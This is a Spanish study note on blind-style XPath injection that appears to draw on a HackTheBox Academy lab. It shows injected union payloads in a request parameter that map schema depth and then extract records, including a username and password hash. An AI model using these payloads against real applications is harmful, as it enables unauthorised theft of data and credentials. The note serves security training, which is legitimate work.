 ```yaml
---
tags:
  - Datos
  - Pentesting/Explotacion
  - Web/Red-Team
Fecha de actualización: 2025-10-23
Nota previa: "[[Exfiltración de datos]]"
Nota siguiente: "[[Explotación a ciegas]]"
Area: "[[Inyección XPath]]"
---
```

---

A veces, es imposible extraer todo el documento *XML* a la vez. Una aplicación web podría sólo mostrar los 5 primeros resultados de  la consulta [[Inyección XPath#Fundamentos XPath|XPath]]. Si inyectamos el payload como tratamos en [[Exfiltración de datos]] no obtendremos el documento XML completo.  

# Determianr la profundidad
Para iterar a través del esquema *XML*, **primero debemos determinar la profundidad del esquema**. Podemos lograr esto asegurándonos de que la <mark style="background: #ADCCFFA6;">consulta *XPath* original no devuelva resultados y agregando una nueva consulta que nos brinde información sobre la profundidad</mark> del esquema. Establecemos el término de búsqueda en el parámetro `q` a <mark style="background: #FFB8EBA6;">cualquier cosa que NO devuelva datos</mark>, por ejemplo, `SOMETHINGINVALID`. Luego podemos configurar el parámetro `f` a `fullstreetname | /*[1]`. Esto da como resultado la siguiente consulta *XPath*:
```xpath
/a/b/c/[contains(d/text(), 'SOMETHINGINVALID')]/fullstreetname | /*[1]
```
> [!info]+
> La subconsulta `/*[1]` **comienza en la raíz del documento** `/`, mueve un nodo hacia abajo en el árbol de nodos debido al comodín `*`, y selecciona el primer hijo debido al predicado `[1]`. De esta forma, <mark style="background: #FFB86CA6;">la subconsulta selecciona el primer hijo de la raíz del documento</mark>, el **nodo del elemento raíz del documento**. Dado que el nodo del elemento raíz del documento <mark style="background: #FFB8EBA6;">tiene varios nodos secundarios, es del tipo de datos `array` en *PHP*</mark>. La aplicación web espera un `string` pero recibe un `array` y por lo tanto no puede imprimir los resultados, lo que da como resultado una respuesta vacía.

Ahora podemos <mark style="background: #ADCCFFA6;">determinar la profundidad del esquema agregando iterativamente un valor adicional `/*[1]` a la subconsulta hasta que cambie el comportamiento de la aplicación</mark> web. Los resultados se ven así (el <mark style="background: #8000E1A6;">parámetro `q` sigue siendo el mismo</mark> que el anterior para todas las solicitudes):

| Valor del parámetro `f`                       | Respuesta     |
| --------------------------------------------- | ------------- |
| `fullstreetname \| /*[1]`                     | Nada          |
| `fullstreetname \| /*[1]/*[1]`                | Nada          |
| `fullstreetname \| /*[1]/*[1]/*[1]`           | Nada          |
| `fullstreetname \| /*[1]/*[1]/*[1]/*[1]`      | `01ST ST`     |
| `fullstreetname \| /*[1]/*[1]/*[1]/*[1]/*[1]` | `No Results!` |

De los resultados anteriores, **podemos deducir que la profundidad del esquema para los datos de la calle es `4`**:
![Solicitud HTTP GET con consulta no válida, la respuesta muestra '01ST ST'.](https://academy.hackthebox.com/storage/modules/204/dataexfil_8.png)

Esto nos <mark style="background: #FFB86CA6;">permite comenzar a exfiltrar datos aumentando la posición en el último predicado hasta que no se puedan recuperar más datos</mark>:

| Valor del parámetro `f`                  | Respuesta     |
| ---------------------------------------- | ------------- |
| `fullstreetname \| /*[1]/*[1]/*[1]/*[1]` | `01ST ST`     |
| `fullstreetname \| /*[1]/*[1]/*[1]/*[2]` | `01ST`        |
| `fullstreetname \| /*[1]/*[1]/*[1]/*[3]` | `ST`          |
| `fullstreetname \| /*[1]/*[1]/*[1]/*[4]` | `No Results!` |

<mark style="background: #FF5582A6;">Exfiltramos con éxito información sobre la primera calle del conjunto de datos</mark>. Los tres valores parecen ser los `long street name`, el `short street name` y el `street type`. De esta forma podemos rellenar algunos de los marcadores de posición del esquema *XML* de la sección anterior. Sin embargo, todavía no sabemos los nombres exactos de los nodos. Sólo estamos intentando crear una <mark style="background: #FFB8EBA6;">descripción general de la estructura del documento *XML*</mark>:
```xml
<a>
	<b>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</b>
</a>
```

Ahora podemos <mark style="background: #FFB86CA6;">extraer información sobre la segunda calle en el conjunto de datos incrementando el predicado de posición</mark> penúltima en nuestro payload inyectado de la siguiente manera:

| Valor del parámetro `f`                  | Respuesta     |
| ---------------------------------------- | ------------- |
| `fullstreetname \| /*[1]/*[1]/*[2]/*[1]` | `02ND AVE`    |
| `fullstreetname \| /*[1]/*[1]/*[2]/*[2]` | `02ND`        |
| `fullstreetname \| /*[1]/*[1]/*[2]/*[3]` | `AVE`         |
| `fullstreetname \| /*[1]/*[1]/*[2]/*[4]` | `No Results!` |

Podemos hacer esto hasta que tengamos información filtrada sobre todas las calles. Sin embargo, como no nos interesan las calles, veamos si el documento *XML* contiene otros conjuntos de datos.

---

# Exfiltrar datos de todo el documento XML
<mark style="background: #8000E1A6;">Incrementar el primer predicado de posición en el payload tiene poco sentido, ya que esta es la raíz del documento</mark> y los documentos *XML* válidos solo contienen una única raíz de documento. Sin embargo, **podemos alterar el predicado de segunda posición para encontrar conjuntos de datos adicionales** dentro del documento *XML*. Recuerde que <mark style="background: #ADCCFFA6;">debemos determinar nuevamente la profundidad del esquema</mark>, ya que puede diferir de la profundidad del conjunto de datos de calles. Para ilustrar esto, considere el siguiente documento *XML* de muestra:
```xml
<dataset>
	<streets>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</streets>
	<users>
		<group name="users">
			<user>
				<username>test</username>
				<password>test</password>
			</user>
		</group>
		<group name="admins">
			<user>
				<username>admin</username>
				<password>admin</password>
			</user>
		</group>
	</users>
</dataset>
```

Podemos determinar la profundidad utilizando los siguientes valores de parámetros. Dado que nos centramos en el segundo conjunto de datos del documento *XML*, debemos utilizarlo `/*[1]/*[2]` Como punto de partida:

| Valor del parámetro `f`                            | Respuesta     |
| -------------------------------------------------- | ------------- |
| `fullstreetname \| /*[1]/*[2]`                     | Nada          |
| `fullstreetname \| /*[1]/*[2]/*[1]`                | Nada          |
| `fullstreetname \| /*[1]/*[2]/*[1]/*[1]`           | Nada          |
| `fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[1]`      | `htb-stdnt`   |
| `fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[1]/*[1]` | `No Results!` |
> [!success]+
> Podemos ver que la **profundidad del esquema es `5`**. Además, parece que <mark style="background: #FFB8EBA6;">hemos exfiltrado un nombre de usuario</mark>. 

Podemos <mark style="background: #FFB86CA6;">exfiltrar todos los datos del usuario incrementando el último predicado de posición</mark>:

|Valor del `f` Obtener parámetro|Respuesta|
|---|---|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[1]`|`htb-stdnt`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[2]`|`295362c2618a05ba3899904a6a3f5bc0`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[3]`|`HackTheBox Academy Student Account`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[4]`|`No Results!`|
> [!recomendacion]+
> Parece que hemos filtrado un objeto de usuario que consta de un `username`, `password hash`, y `description`. Ahora podemos **incrementar iterativamente los índices de posición de derecha a izquierda**, para exfiltrar a todos los usuarios.
> 
> <mark style="background: #ADCCFFA6;">Para exfiltrar un documento *XML* completo, tiene sentido implementar un script simple que haga la exfiltración por nosotros</mark>.